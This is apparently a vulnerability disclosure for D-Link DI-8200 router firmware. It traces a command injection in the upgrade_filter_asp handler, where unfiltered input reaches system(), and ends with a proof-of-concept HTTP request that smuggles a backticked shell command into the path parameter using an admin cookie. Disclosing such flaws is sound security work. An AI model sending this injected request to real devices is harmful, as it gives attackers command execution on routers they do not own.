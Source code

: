 Firmware version:

DI_8200-16.07.26A1
	
Download address:

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

Command injection:

The upgrade_filter_asp function has command injection；
The received request is sent to parm; And parm doesn't do any filtering;
parm data is sent to v17 through strcpy, and then only "http://" is matched without any filtering；
Splice to v16 through sprintf, and finally system(v16); Cause command injection;

![Pasted image 20240806103832](https://github.com/user-attachments/assets/dc202541-9c94-4aea-aa24-2542b9d72fb7)


Here is the FirmAE simulated firmware command injection process:

![Pasted image 20240806104833](https://github.com/user-attachments/assets/5e05c27e-5004-40ef-9fd4-e652b7ba989f)


![Pasted image 20240806104945](https://github.com/user-attachments/assets/595c0044-852d-4dd4-9bd4-72470692de76)


poc：

```
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```
